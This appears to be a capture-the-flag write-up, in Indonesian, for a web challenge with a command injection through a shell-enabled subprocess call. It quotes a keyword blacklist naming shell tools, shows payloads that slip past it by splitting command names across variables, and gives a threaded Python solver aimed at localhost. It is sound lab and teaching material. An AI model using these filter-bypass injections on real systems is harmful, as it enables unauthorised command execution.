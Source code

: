 # Solve
Dapat diketahui terdapat sebuah kerentanan code injection di bagian:
```py
    process = subprocess.run(inputed, shell=True, capture_output=True, text=True)
    output = process.stdout
```

Namun terdapat blacklist seperti ini:
```py
    blacklist = [
    "ls", "cat", "rm", "mv", "id", "cp", "wget", "curl", "chmod", "chown", "find", "ps",
    "grep", "awk", "sed", "bash", "sh", "python", "perl", "php", "sudo", "whoami",
    "vi", "vim", "nano", "info", "uname", "more", "head", "less", "tail", "txt", "&&", "|", "`", "$(", ">", "<", "&", "'", '"', "*", "\n"
    ]
```

Untuk melakukan bypass, kita bisa menggunakan payload seperti berikut:

`s=s; l&s` == `ls`

Bila ingin melakukan listing directory, karena terdapat sleep sebesar 0.1 detik sebelum output file dihapus kita bisa menggunakan threading.

Sehingga didapat solver berikut:

```py
import requests
from datetime import datetime
import binascii
requests.packages.urllib3.disable_warnings()
import threading
import subprocess

url = "http://localhost:5000/"

s = requests.Session()

inputed = "d=d; i$d"

data_req = {
    "input": inputed,
    "submit": "Submit"
}

def exp_get_id():
    r = s.post(url + "get_quotes", data=data_req, verify=False)
    get_date_minute = datetime.now().strftime('%Y%m%d%H%M')
    random_number = binascii.hexlify(get_date_minute.encode()).decode()
    filename = f'{random_number}.txt'
    return filename

def get_response():
    r = s.get(url + "generated_quotes/" + exp_get_id(), verify=False)
    # print("Click the link: " + url + "generated_quotes/" + exp_get_id())
    print(r.text)

if __name__ == "__main__":
    threading.Thread(target=get_response).start()
```